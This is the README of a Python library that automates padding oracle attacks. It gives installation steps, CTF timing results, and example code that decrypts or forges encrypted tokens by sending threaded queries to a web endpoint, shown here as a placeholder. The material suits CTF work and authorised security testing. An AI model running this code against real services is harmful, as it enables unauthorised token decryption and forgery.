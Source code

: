 # Padding Oracle Automation in Python

![Python Package Badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

This script automates padding oracle attacks in Python, offering efficient and threaded execution.

## Installation

You can install the script using one of these methods:

- **Via PyPI:**
  ```shell
  pip3 install -U padding_oracle
  ```

- **Directly from GitHub:**
  ```shell
  pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
  ```

## Performance

The script's performance varies depending on the number of request threads. This was tested in a CTF web challenge:

| Request Threads | Time Taken  |
|-----------------|-------------|
| 1               | 17m 43s     |
| 4               | 5m 23s      |
| 16              | 1m 20s      |
| 64              | 56s         |

## Usage

### Decryption

When trying to decrypt a token like the one at `https://example.com/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`, this script assumes that the token is vulnerable to a padding oracle attack.

```python
from padding_oracle import decrypt, base64_encode, base64_decode
import requests

sess = requests.Session()  # Uses connection pooling
url = 'https://example.com/api/'

def oracle(ciphertext: bytes):
    response = sess.get(url, params={'token': base64_encode(ciphertext)})
    if 'failed' in response.text:
        return False  # Token decryption failed
    elif 'success' in response.text:
        return True
    else:
        raise RuntimeError('Unexpected behavior')

ciphertext = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
assert len(ciphertext) % 16 == 0

plaintext = decrypt(
    ciphertext,
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Encryption

Below is an example demonstrating how to encrypt arbitrary bytes. For a detailed understanding of the process, please refer to [this Pull Request](https://github.com/djosix/padding_oracle.py/pull/4).

```python
from padding_oracle import encrypt

ciphertext = encrypt(
    b'YourTextHere', 
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Customized Logging

Both `encrypt` and `decrypt` allow user to inject a custom logger:

- **Disable Logging:**
  ```python
  from padding_oracle import nop_logger

  plaintext = decrypt(
      ...
      logger=nop_logger,
  )
  ```

- **Selective Logging:**
  ```python
  def logger(kind: str, message: str):
      if kind in ('oracle_error', 'solve_block_error'):
          print(f'[{kind}] {message}')

  plaintext = decrypt(
      ...
      logger=logger,
  )
  ```

### Extras

The script also includes PHP-like encoding and decoding functions:

```python
from padding_oracle.encoding import urlencode, urldecode, base64_encode, base64_decode
```

## License

This script is distributed under the MIT license.

